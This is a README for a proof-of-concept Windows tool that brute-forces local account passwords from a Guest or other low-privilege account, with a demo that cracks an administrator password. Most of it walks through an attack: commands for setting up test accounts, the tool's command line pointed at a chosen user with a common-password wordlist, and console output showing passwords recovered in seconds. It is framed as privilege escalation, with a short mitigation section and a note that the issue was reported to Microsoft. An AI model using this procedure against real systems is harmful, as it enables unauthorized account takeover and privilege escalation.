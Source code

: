 # Win Brute Logon (Proof Of Concept)

Release date: `2020-05-14`

Target: Windows XP to Latest Windows 10 Version (1909)

![Console](https://i.ibb.co/Cm5052S/screen.png)

Weakness location : `LogonUserA`, `LogonUserW`, `CreateProcessWithLogonA`, `CreateProcessWithLogonW`

# Introduction

This PoC is more what I would call a serious weakness in Microsoft Windows Authentication mechanism than a vulnerability.

The biggest issue is related to the lack of privilege required to perform such actions.

Indeed, from a Guest account (The most limited account on Microsoft Windows), you can crack the password of any available local users.

Find out which users exists using command : `net user`

This PoC is using multithreading to speed up the process and support both 32 and 64bit.

# PoC Test Scenario (With a Guest Account)

Tested on Windows 10 

Install and configure a freshly updated Windows 10 virtual or physical machine.

In my case full Windows version was : `1909 (OS Build 18363.778)`

Log as administrator and lets create two different accounts : one administrator and one regular user. Both users are local.

/!\ Important notice: I used the Guest account for the demo but this PoC is not only limited to Guest account, it will work from any account / group (guest user / regular user / admin user etc...) 

## Create a new admin user

`net user darkcodersc /add`

`net user darkcodersc trousers` (trousers is the password)

`net localgroup administrators darkcodersc /add`

## Create a regular user

`net user HackMe /add`

`net user HackMe ozlq6qwm` (ozlq6qwm is the password)

## Create a new Guest account

`net user GuestUser /add /active:yes`

`net localgroup users GuestUser /delete`

`net user GuestUser /add /active:yes`

## Get a Wordlist 

In my case both `trousers` and `ozlq6qwm` are in SecList : https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt

## Start the attack

Logoff from administrator account or restart your machine and log to the Guest account. 

Place the PoC executable anywhere you have access as Guest user.

Usage : `WinBruteLogon.exe -v -u <username> -w <wordlist_file>`

`-v` is optional, it design the verbose mode.

By default, domain name is the value designated by `%USERDOMAIN%` env var. You can specify a custom name with option `-d`

### Crack First User : `darkcodersc` (Administrator)

prompt(guest)>`WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=2260, handle=364
[INFO] New "TWorker" Thread created with id=3712, handle=532
[DONE] Done.
[ OK ] Password for username=[darkcodersc] and domain=[DESKTOP-0885FP1] found = [trousers]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=2260, handle=364) Thread successfully terminated.
[INFO] "TWorkers"(id=3712, handle=532) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

### Crack Second User : `HackMe` (Regular User)

prompt(guest)>`WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=5748, handle=336
[INFO] New "TWorker" Thread created with id=4948, handle=140
[DONE] Done.
[ OK ] Password for username=[HackMe] and domain=[DESKTOP-0885FP1] found = [ozlq6qwm]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=5748, handle=336) Thread successfully terminated.
[INFO] "TWorkers"(id=4948, handle=140) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

# Real world scenario

If you gain access to a low privileged user, you could crack the password of a more privileged user and escalate your privilege.

# Mitigation (General)

- Disable guest(s) account(s) if present.
- Application white-listing.
- Follow the guidelines to create and keep a password strong. Apply this to all users.

## Implement Security Lockout Policy (Not present by default)

Open `secpol.msc` then go to `Account Policies` > `Account Lockout Policy` and edit value `Account lockout threshold` with desired value from (1 to 999).

Value represent the number of possible attempt before getting locked.

/!\ LockDown Policy wont work on Administrator account. At this moment, best protection for Administrator account (if Enabled) is to setup a very complex password.

# Weakness Report

A report was sent to Microsoft Security Team.

They should at least implement by default account lockout. Actually it is not.
